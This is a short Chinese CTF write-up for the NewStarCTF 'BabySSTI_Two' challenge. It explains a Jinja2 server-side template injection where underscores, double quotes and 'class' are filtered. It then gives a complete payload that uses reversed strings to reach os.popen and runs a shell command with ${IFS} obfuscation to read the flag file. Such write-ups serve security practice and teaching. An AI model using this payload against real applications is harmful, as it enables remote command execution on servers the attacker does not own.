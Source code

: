 ```yaml
---
title: '[NewStarCTF 公开赛赛道]BabySSTI_Two'
date: 2025-01-29 20:14:17
tags: ssti
categories: 刷题笔记
---
```


## [NewStarCTF 公开赛赛道]BabySSTI_Two

根据题目提示，这是一个ssti的题

![image-20250202201503729](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022015974.png)

经过测试，我们发现这是个jinjia2的模版，并且过滤了下划线和双引号和class

我们可以用字符串逆序来绕过 

![image-20250202202006134](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022020221.png)

```
?name={{''['__ssalc__'[::-1]]['__sesab__'[::-1]][0]['__sessalcbus__'[::-1]]()[117]['__tini__'[::-1]]['__slabolg__'[::-1]]['nepop'[::-1]]('ca${Z}t${IFS}/fl${Z}ag_in_h3r3_52daad').read()}}
```

更简单的，用fenjing进行爆破

